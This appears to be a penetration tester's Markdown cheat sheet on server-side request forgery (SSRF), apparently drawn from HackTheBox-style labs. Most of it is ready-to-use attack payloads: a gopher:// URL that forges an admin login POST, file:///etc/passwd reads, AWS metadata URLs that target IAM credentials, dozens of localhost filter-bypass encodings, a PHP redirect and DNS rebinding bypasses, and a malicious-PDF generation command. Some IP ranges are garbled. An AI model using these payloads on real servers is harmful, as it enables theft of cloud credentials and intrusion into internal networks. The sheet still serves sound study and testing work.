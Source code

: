 
## SSRF

|**Exploitation**||
|---|---|
||internal portscan by accessing ports on localhost|
||accessing restricted endpoints|
|**Protocols**||
||`http://127.0.0.1/`|
||`file:///etc/passwd`|
||`gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin`|

### SSRF Basic Filter Bypasses

##### Obfuscation of localhost
- Localhost Address Block: `127.0.0.0 - 127.255.255.255`
- Shortened IP Address: `127.1`
- Prolonged IP Address: `127.000000000000000.1`
- All Zeroes: `0.0.0.0`
- Shortened All Zeroes: `0`
- Decimal Representation: `2130706433`
- Octal Representation: `0177.0000.0000.0001`
- Hex Representation: `0x7f000001`
- IPv6 loopback address: `0:0:0:0:0:0:0:1` (also `::1`)
- IPv4-mapped IPv6 loopback address: `::ffff:127.0.0.1`

Sometimes sites offer the possibility to make external requests using their server, what if we could user their “external” service to make requests for internal resources. That’s SSRF.

If the site is hosted in amazon, it is possible to get internal information by requesting the urls:

```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/flaws/
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/iam/securty-credentials
```

Another idea is to try and request IP’s that we know that are internal:

```
10.0.0.0 to 10.255.255.55
100.64.0.0 to 10.127.255.255
127.0.0.0 to 127.255.255.255
127.16.0.0 to 127.31.255.255
192.0.0.0 to 192.0.0.255
198.18.0.0 to 198.19.255.255
```

Sometimes websites block external acess to localhost (ie 127.0.0.1). Fortunately it is possible to bypass restrictions by referencing localhost in other ways.

Did you know that `127.0.0.1` and `127.1` are the same thing?

```
127.0.0.1
127.0.0.2
127.1
127.2
::1
0:0:0:0:0:0:0:1
0:0:0:000:0:0:0:1
0000:0000:0000:0000:0000:0000:0000:0001
2130706433
2130706434
7F000001
7F000002
localhos
127.123.123.123
0x7f.1
017700000001
127.0.0.1
localhost
0x7f.0x0.0x0.0x1
0177.00.00.01
017700000001
0x7f001
2130706433
017700000001
%6c%6f%63%61%6c%68%6f%73%74
%31%32%37%2e%30%2e%30%2e%31
0x7f000001
00000000177.000000000.000000000.000000001
0x7f.0x0.0x0.0x1
0x000000007f.0x000000000.0x000000000.0x000000001
0x7f.0x0.0x0.1
0x7f.0x0.0.1
0x7f.0.0.1
127.0x0.0x0.0x1
127.0.0x0.0x1
127.0.0.0x1
0177.00.00.1
0177.00.0.1
0177.0.0.1
127.00.00.01
127.0.00.01
127.0.0.01
0x7f.0x0.1
0x7f.1
0177.00.1
0177.1
0x7f.00.1
0177.0x0.1
::ffff:7f000001
0:0:0:0:0:ffff:7f000001
0000:0000:0000:0000:0000:ffff:7f000001
0000:0000:0000:0000:0000:ffff:127.0.0.1
hostname
0177.1
0177.2
0177.0.1
0177.0.2
017700000001
017700000002
0x7F000001
0x7F000002
0X07f.0.0.1
```

## IP Converter

- [https://h.43z.one/ipconverter/](https://h.43z.one/ipconverter/)

## Redirect from one URL to another

- [https://ssrf.localdomain.pw](https://ssrf.localdomain.pw/)

```
https://ssrf.localdomain.pw/csv-with-body/301-http-169.254.169.254:80-.c.csv
https://ssrf.localdomain.pw/img-with-body/301-http-169.254.169.254:80-.i.jpg
```

- [https://sslip.io/](https://sslip.io/)

## DNS Rebinding

To put it super simply, DNS rebinding allows you to have a hostname that switches between 2 ips with a very low ttl. This can bypass SSRF protections by resolving as a “safe” ip at first, then immediately switching to an “unsafe” or internal ip.

- [https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html)

## Using enclosed alphanumerics

```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com
```

Convert to unicode: [http://qaz.wtf/u/convert.cgi](http://qaz.wtf/u/convert.cgi)
##### Bypass via DNS Resolution
```bash
w44z@htb[/htb]$ nslookup localtest.me

Server:		1.1.1.1
Address:	1.1.1.1#53

Non-authoritative answer:
Name:	localtest.me
Address: 127.0.0.1
Name:	localtest.me
Address: ::1
```
So, use `http://localtest.me` in the url param.

##### Bypass via HTTP Redirect
Bypass the filter by providing a URL pointing to a web server under our control, redirecting the web application to the local debug endpoint. To do so, we can host the following PHP code on our web server
```php
<?php header('Location: http://127.0.0.1/debug'); ?>
```
```bash
w44z@htb[/htb]$ php -S 0.0.0.0:80

[Sun Aug 13 10:55:35 2023] PHP 7.4.33 Development Server (http://0.0.0.0:80) started
```

So, use `http://<YOUR-IP>:80` in the url param.

## Cloud Metadata

Interactsh server supports DNS records for cloud metadata services, which is useful for testing SSRF-related vulnerabilities.

```
aws.interact.sh points to 169.254.169.254
alibaba.interact.sh points to 100.100.100.200
```

## PDF

```
# https://github.com/jonaslejon/malicious-pdf
python3 malicious-pdf.py burp-collaborator-url
```

## Mindmap
![[Pasted image 20241106113120.png]]## Articles

|WriteUp|Description|
|---|---|
|[https://dant0x65.medium.com/bug-bounty-tip-automating-ssrf-ea344ec59962](https://dant0x65.medium.com/bug-bounty-tip-automating-ssrf-ea344ec59962)|Configure burp to look for SSRFs|
|[https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)|All about SSRF|
|[https://github.com/jdonsec/AllThingsSSRF](https://github.com/jdonsec/AllThingsSSRF)|All Things SSRF|
|[https://github.com/assetnote/blind-ssrf-chains](https://github.com/assetnote/blind-ssrf-chains)|Blind SSRF Chains|

